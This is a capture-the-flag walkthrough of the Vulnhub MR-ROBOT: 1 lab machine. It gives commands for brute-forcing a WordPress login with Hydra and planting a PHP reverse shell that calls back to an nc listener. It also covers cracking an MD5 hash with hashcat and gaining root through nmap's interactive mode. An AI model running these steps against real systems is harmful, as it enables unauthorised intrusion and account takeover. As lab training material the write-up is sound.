

# This is the write up for the Vulnhub box MR-ROBOT: 1 

Box Ip Address: 10.38.1.112

Attacking Machine Ip: 10.38.1.110
## **Information Gathering**
---
Starting with an Nmap port Scan we see this output:


The two open ports are the HTTP port 80 and the HTTPS port of 443. These two ports being open, we can assume that this is a web server.

Upon navigating to the server address within a web browser we are greeted with this:


After poking around with the listed commands and running into dead-ends we can view the `/robots.txt file` which gives us this: 


It looks like we have the first key! If we insert `key-1-of-3.txt` where `robots.txt` was we are able to view the key: `073403c8a58ald80d943455fb30724b9`


After navigating back to `robots.txt` we can use this command we can pull down the dictionary file.
```
wget 10.38.1.112/fsocity.dic
```

Attempting to `cat` the file we can see there is a ton of scrolling entries. If we instead pipe the command to `wc -l` we see there are 858,160 lines in this file. 


If we use `cat` and pipe the command to `grep -i "robot"` we see that the file repeats itself.


Let's use this command to count the number of unique entries
```
cat fsocity.dic | sort -u | wc -l
```

After doing so we see there are 11,451 unique entries. We will now use this command to save these entries into a new dictionary file
```
cat fsocity.dic | sort -u >> new_fsocity.dic
```

Now lets use `dirb` to see if we can find any more directories in this page
```
dirb http://10.38.1.112 /usr/share/wordlists/dirb/common.txt
```

This is the output of that command


After running into the dead-end that was the `/readme` we can turn our attention to the `/login/`. Which we then see a login screen for WordPress


When we viewed the `fsocity.dic` file earlier, one of the first entries that seemed like it could be a username was `Elliot`  


If we attempt to brute force our way into the `Elliot` username and use the password `password` we see that Elliot is, in fact, the name of a user.


Now that we have a user we can use a `Hydra` command to try and brute force his password. We know that logins use a POST request so our structure looks like this:
```
hydra -vv -l elliot -P /home/kali/Desktop/new_fsocity.dic 10.38.1.112 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect' 
```

And after about 5 minutes we have this nice message: 


So now we have `elliot's` password, which is: `ER28-0652`


## **Exploitation**
---
When looking for these flags, the easiest way I can think of is to somehow get into a shell. Knowing the website is run on `.php` we can do a quick google search for `"php reverse shell kali linux location"` we find the location of the reverse shell code at `/usr/share/laudenum/php/php-reverse-shell.php`

we need to nano this code and make soime changes prior to uploading it to wordpress. These are the changes we need to make


ip needs to be set to our kali box `ip` of `10.38.1.110` and the `port` can be set to `443`

Next we need to open a new terminal and start a NetCat listener for port 443
```
nc -lnvp 443
```

Navigating to appearance/editor in the wordpress site and using the `404 template` we can paste our new php script.


Once we save the script we can make a new tab and put the URL as `10.38.1.112/hi` to trigger the netcat listener which gives us our shell access. 


Through a series of directory traversals we now have access to `key-2-of-3.txt` and `password.raw-md5`


If we try to view the key file we get permission denied. This is due to the owner of the file being the user `robot`

if we `cat` the password file we get this md5 hash


We can use the hashcat tool to crack this password hash. To do this, we need to copy the contents of `password.raw-md5` to our kali desktop, delete the `robot:`, and run this command
```
hashcat -m 0 password.raw-md5 /usr/share/wordlists/rockyou.txt
```

After about one minute hashcat will have cracked the password and we see this:



So for the user `robot` the password is `abcdefghijklmnopqrstuvwxyz`

Now from our reverse shell we can `su` to the user `robot` and view the file but doing so yields this error: 


After googling this problem, we can actually spawn a bash shell using python and this command.
```
python -c 'import pty;pty.spawn("/bin/bash")'
```
Doing so will get us a bash terminal where we then can `su` into the user `robot`

We then can `cat` the key file and see key 2 is `822c73956184f694993bede3eb39f959`


# Escalation

Moving onto the last key we can make an assumption that we must elevate our permiissions to be `root` 

Using this command we can see what version of nmap we are running:
```
nmap --version
```

Oh look, we are running an older version of nmap.


After a quick search online we find out we can use this version of nmap in it's interactive mode to escalate our privileges to root.
```
nmap --interactive
```
Then once inside we can run
```
!/bin/bash
```
We see by doing this we can get the normal bash shell. Let's exit and try a different shell
```
!sh
```
Then
```
whoami
```
It looks like that gave us the root access we need!!


If we navigate to `/root` and look in the directory we see the file for `key-3-of-3.txt`


If we `cat` the file we are rewarded with our third and final key!!!


# Congratulations!!!

#### Thanks so much for coming along on this journey with me